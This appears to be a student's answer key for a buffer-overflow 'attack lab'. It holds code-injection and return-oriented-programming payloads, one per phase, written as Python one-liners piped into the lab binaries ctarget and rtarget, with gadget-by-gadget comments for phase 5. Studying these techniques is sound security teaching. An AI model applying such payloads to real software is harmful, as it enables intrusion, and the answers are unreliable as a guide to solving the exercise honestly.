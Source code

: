 # Solutions

cookie: 0x59b997fa

## info

piping into gdb example: ./hex2raw < phase2.txt > rawphase2.txt

## phase 1

python3 -c 'import sys; sys.stdout.buffer.write(b"a"*40 + b"\xc0\x17\x40")' | ./ctarget -q

## phase 2

gcc -c gen_byte_code.s
objdump -d gen_byte_code.o  > gen_byte_code.d

info: move cookie to rdi, push address of touch2 onto stack (this updates the stack pointer also), call retq (which pops return address from stack which points to touch2.

python3 -c 'import sys; sys.stdout.buffer.write( b"\xbf\xfa\x97\xb9\x59" + b"\x68\xec\x17\x40\x00" + b"\xc3" + b"\x00"*29 + b"\x78\xdc\x61\x55" + b"\x00"*4)' | ./ctarget -q

## phase 3

cookie:

0x35 0x39 0x62 0x39 0x39 0x37 0x66 0x61

continue at address 0x5561dc78 (first address of buffer);
move memory address of first character of string into rdi (address is 0x5561dc78 + 49... remember: 40-48 is reserved for return address that points at exploit code);
push func address of touch3 onto stack;
return (this takes you to touch3);

python3 -c 'import sys; sys.stdout.buffer.write( b"\x48\xc7\xc7\xa8\xdc\x61\x55" + b"\x68\xfa\x18\x40\x00" + b"\xc3" + b"\x00"*27 + b"\x78\xdc\x61\x55" + b"\x00"*4 + b"\x35\x39\x62\x39\x39\x37\x66\x61\x00")' | ./ctarget -q

## phase 4

Probable approach: use our interesting code bits in our gadgets to pass cookie to rdi, then hit touch 2... we want to structure our buffer so that it contains addresses of interesting function bits in sequential order.

^ this approach was right!

python3 -c 'import sys; sys.stdout.buffer.write(b"\x90"*40 + b"\xcc\x19\x40"+ b"\x00"*5 + b"\xfa\x97\xb9\x59" + b"\x00"*4 + b"\xa2\x19\x40" + b"\x00"*5 + b"\xec\x17\x40"+b"\x00"*5)' | ./rtarget -q

## phase 5

Probable approach: move pass cookie address to rdi, then hit touch 3. We'll have to calculate an offset for the cookie address. In more formal terms: move rsp to another register, pop offset (for where string will be stored) from stack and save value in another register, add the two registers together -> put the output into rdi -> call touch 3

^ this approach was right!

comments:

```text
python3 -c 'import sys; sys.stdout.buffer.write(
    b"\x90"*40 + # buffer padding
    b"\x06\x1a\x40"+b"\x00"*5 + # rsp -> rax (stack pointer in rax)
    b"\xc5\x19\x40"+b"\x00"*5 + # rax -> rdi (this move needs to happen since the only 'popq' widget that's available to use writes to rax. stack pointer in rdi)
    b"\xab\x19\x40"+b"\x00"*5 + # popq -> rax (eventual offset to stack pointer in rax)
    b"\x48"+b"\x00"*7 + # value that will be popped from stack and placed in rax
    b"\x42\x1a\x40"+b"\x00"*5 + # move offset value from eax to edx (a useless testb is performed)
    b"\x34\x1a\x40"+b"\x00"*5 + # move offset value from edx to ecx ( a useless cmpb is performed)
    b"\x13\x1a\x40"+b"\x00"*5 + # move offset value from ecx to esi (finally we can take advantage of the lea instruction that's present in one of the widgets)
    b"\xd6\x19\x40"+b"\x00"*5 + # lea (%rdi,%rsi,1),%rax (so effectively take stack pointer in rdi and add offset of 0x48 to it in rsi and store output in rax)
    b"\xc5\x19\x40"+b"\x00"*5 + # again, move rax to rdi. rdi will now contain starting address of our string
    b"\xfa\x18\x40"+b"\x00"*5 + # touch3 address
    b"\x35\x39\x62\x39\x39\x37\x66\x61\x00")' | ./rtarget -q # cooke with null terminator
```

no comments:

```text
python3 -c 'import sys; sys.stdout.buffer.write(
    b"\x90"*40 +
    b"\x06\x1a\x40"+b"\x00"*5 + 
    b"\xc5\x19\x40"+b"\x00"*5 + 
    b"\xab\x19\x40"+b"\x00"*5 +
    b"\x48"+b"\x00"*7 + 
    b"\x42\x1a\x40"+b"\x00"*5 + 
    b"\x34\x1a\x40"+b"\x00"*5 + 
    b"\x13\x1a\x40"+b"\x00"*5 + 
    b"\xd6\x19\x40"+b"\x00"*5 + 
    b"\xc5\x19\x40"+b"\x00"*5 + 
    b"\xfa\x18\x40"+b"\x00"*5 + 
    b"\x35\x39\x62\x39\x39\x37\x66\x61\x00")' | ./rtarget -q
```
